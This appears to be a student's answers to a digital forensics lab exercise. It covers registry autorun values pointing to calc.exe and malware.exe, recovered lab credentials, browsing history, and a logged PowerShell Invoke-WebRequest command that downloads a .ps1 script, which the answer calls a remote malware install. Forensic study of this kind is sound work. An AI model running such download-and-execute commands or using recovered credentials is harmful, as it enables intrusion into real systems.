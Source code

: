**21k-4760**
**Muhammad Musayiab**

**Question no 1:**

Part a) Mouse double click speed : 500

Part b) url1Registry Last write: 2023-01-29 16:25:07
Value: url1 (RegSz)
Data: C:\Windows\System32\calc.exe

Part c) Registry file: Value: Malware (RegSz)
Data: C:\Users\w\Desktop\malware.exe
Slack: 00-00-78-00-65-00

**Question no 2:**

Part a) Username: hackerman
	   b) password: sup3rs3cur3p4ssw0rd
Part b) What’s the most frequently visited website? (amazon.com)
Part c) download :  pyhton downlooad.


**Question no 3:**

Part a) Log Name:      Microsoft-Windows-PowerShell/Operational
Source:        Microsoft-Windows-PowerShell
Date:          1/29/2023 10:55:04 PM
Event ID:      4104
Task Category: Execute a Remote Command
Level:         Verbose
Description:
Creating Scriptblock text (1 of 1):
Invoke-WebRequest -UseBasicParsing -Uri https://raw.githubusercontent.com/vonderchild/digital-forensics-lab/main/Lab%202/files/file.ps1 -OutFile "file.ps1"

Part b) The purpose was to install malware remotely to the computer.

